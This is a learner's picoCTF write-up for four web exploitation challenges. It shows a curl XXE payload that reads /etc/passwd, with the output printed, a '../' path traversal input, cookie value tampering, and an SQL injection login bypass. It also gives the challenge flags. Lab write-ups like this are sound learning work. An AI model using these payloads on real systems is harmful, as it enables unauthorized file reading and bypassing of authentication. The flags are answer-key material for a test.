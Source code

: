 # Web Exploitation

* This is a domain I have very little experience in other than OASIS. So a Little bit of time will be taken to solve these + will have to lookup writeups If I hit a hard roadblock.

## SOAP

I had a dilemma whether to use burp suite or curl as I didnt have much experience in curl but since burp suite led me nowhere I just used these commands to get the flag after reading up on some resources on using curl.
Resource :  https://portswigger.net/web-security/xxe
```
satwik@Satwik:~/picoctf/cryptography/minirsa$ curl 'http://saturn.picoctf.net:59393//data' \
> -H 'Accept: */*' \
> -H 'Content-Type: application/xml' \
> --data-raw '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><data><ID>&xxe;</ID></data>' \
> --insecure
Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}
```
Thus I got the flag : `picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}`

## Forbidden Paths 
Since it is given that the flag is in the directory `/usr/share/nginx/html/ ` and the flag existed in the directory `/flag`. Since absolute files don't work you have to use a relative path.
The website contains a prompt that reads the file of whatever relative path is inputted. Therefore if you input `../../../../flag.txt`, we get the flag.

flag: `picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}`

## Cookies

Since Im familiar with cookies due to OASIS CTF. 
I tried changing the cookie from -1 to 1

![alt text](/assets/cookies1.png)

But AS u can see it says its not the right cookie so I tried incrementing the value one by one and at 18 I found the flag.

![alt text](/assets/cookies2.png)




The flag : `picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}`

## SQLiLite

I Wanted to learn SQL injection, So I did this challenge.


I tried `admin` and `satwik123` in the fields.

![alt text](/assets/imageforsql.png)



![alt text](/assets/asql2.png)

Since They show us the sql query. I put these In-Band SQLI payloads :
 ```
admin` OR '1' = '1' as username
satwik123 as password
```
![alt text](/assets/asql3.png)

which granted me access to the site and checking the html of the page gave me the flag easily.

![alt text](/assets/asql4.png)

The flag: `picoCTF{L00k5_l1k3_y0u_solv3d_it_ec8a64c7}`





